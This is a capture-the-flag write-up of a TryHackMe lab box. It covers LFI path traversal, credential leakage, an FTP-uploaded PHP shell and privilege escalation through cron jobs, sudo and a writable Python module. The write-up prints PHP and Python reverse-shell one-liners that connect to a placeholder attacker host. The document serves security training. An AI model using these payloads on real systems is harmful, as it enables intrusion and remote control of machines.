This box is rated medium difficulty on THM. It involves us exploiting an LFI vulnerability to leak credentials, uploading a reverse shell via FTP, and pivoting through five accounts to snag all flags.

_A boot2root Linux machine utilizing web exploits along with some common privilege escalation techniques._

## Scanning & Enumeration
As always, I begin with an Nmap scan on the give IP to find all running services.



There are only three ports open:
- FTP on port 21
- SSH on port 22
- An Apache web server on port 80

Neither versions for ftp and ssh are prone to anything other than username enumeration, so I head over to the webpage.



This looks to be a blog about cork placemats? As the page is static, I start directory enumeration with dirsearch and look at robots.txt. Here, we can grab the first of seven flags along with another file that returns a 403 forbidden code.



While checking the source code, something sticks out to me. When clicking on any of the placemat posts, it loads by making a GET request to post.php with a post parameter indicating which picture should load for the blog post. Smells like an LFI vulnerability.



I capture a request to a blog post and start testing for it with path traversal payloads. The page responds with the contents of /etc/passwd confirming that this indeed works.



First, I use this to read the other file found in robots.txt. Here we get login credentials for ftpuser as well as the storage directory for the files inside it.



## Initial Foothold
Once logged in on FTP, we can grab the second flag. There are no other files on the server which means only one thing. Since we have access to an LFI vulnerability and can upload files to a place the server can reach, it’s possible to grab a shell as www-data by forcing the server to read our malicious file.

First I create a file with our PHP shell, grabbing one from revshells. Then I use the put command in FTP to upload it at /home/ftpuser/ftp/files .



Finally, we can setup our listener of choice and proc the server to read it using the captured request from earlier.


I start looking around for credentials on the system and end up finding the third flag under /var/www/html/more_secrets_a9f10a .

## Lateral Movement
Checking the other user’s home directories shows a note left for Toby hinting at a cronjob being executed. Looking at the cronjobs running, mat executes toby’s cow.sh script every minute.



I check Sudo permissions as www-data and to my surprise, we can run any command as toby without a password. I will append a reverse shell to the cow.sh script to grab a shell as mat.

We can also read the fourth flag under toby’s home directory this way.

I ran into some trouble trying to echo the shell into the script, so I switch to using PHP to switch to toby first.

```
sudo -u toby php -r '$sock=fsockopen("ATTACKING_IP",PORT);shell_exec("/bin/bash <&3 >&3 2>&3");'
```



Now, let’s append the shell to that cow.sh script and get a shell as mat.





Searching the system again reveals that flag six is under will’s home directory, meaning we’ll have to pivot to his account before root.

Checking Sudo permissions shows that Mat is allowed to run Python as root to execute will’s script.



I take some time to read the scripts and find that Will’s script imports a cmd.py module owned by Mat in order to run it.



Once again, since Mat has write permissions to the cmd.py module, we can append a shell to it and grab a session as Will.

```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING_IP",
PORT));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])
```



Set up a listener and execute Will’s script with sudo and we’re in.



## Root Privileges
I see that Will is in the adm group which allows us to read special files. I use the find command to search all files with that group name and find a base64 encoded SSH private key under /opt/backups .



Decoding this allows us to use it to login as root. At long last, we can grab the seventh flag to complete the box.


There we have it, this was a very fun one for me as it covered a ton of common linux privesc techniques to pivot between all accounts. I hope this was helpful to anyone stuck or following along and happy hacking!
